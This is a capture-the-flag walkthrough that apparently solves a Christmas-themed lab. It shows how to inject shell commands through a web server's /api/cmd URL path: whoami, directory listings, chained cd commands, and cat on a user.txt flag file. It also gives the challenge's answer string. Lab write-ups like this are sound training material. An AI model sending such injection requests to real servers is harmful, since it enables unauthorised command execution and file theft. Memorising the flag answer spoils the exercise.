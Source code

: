 ## Introduction

> Another day, another hack from the Christmas Monster. Can you get back control of the system?  
> Access the web server on http://[your-ip]:3000/  
> McSkidy actually found something interesting on the /api/cmd endpoint.  
> Check out the [supporting material](./Christmas Command Injection) here.

## Questions

> What are the contents of the user.txt file?

td:lr Answer: **5W7WkjxBWwhe3RNsWJ3Q**

===============================================================================

On the webpage, it is just an empty page with the text "christmas monster was here"

we were given in the intro that there is something interesting on /api/cmd.

Navigating to http://[ip]:3000/api/cmd, we will see error "Cannot GET /api/cmd/"  
However, as the supporting doc implies, there might be command injection available here

we can try by inserting whoami:

`http://[ip]:3000/api/cmd/whoami`

straightaway we can see a json return of 'root\n', which means our command injection works successfully.  
So now we need to find the right information by enumerating and finding the right file:

`http://[ip]:3000/api/cmd/ls -la`

![](./res/pic1.png)

`http://[ip]:3000/api/cmd/cd home&&ls -la`

![](./res/pic2.png)

`http://[ip]:3000/api/cmd/cd home&&cd bestadmin&&ls -la`

![](./res/pic3.png)

in the directory home/bestadmin/ we will find the user.txt file. Hence the below will give us the answer.

`http://[ip]:3000/api/cmd/cd%20home&&cd%20bestadmin&&cat%20user.txt`


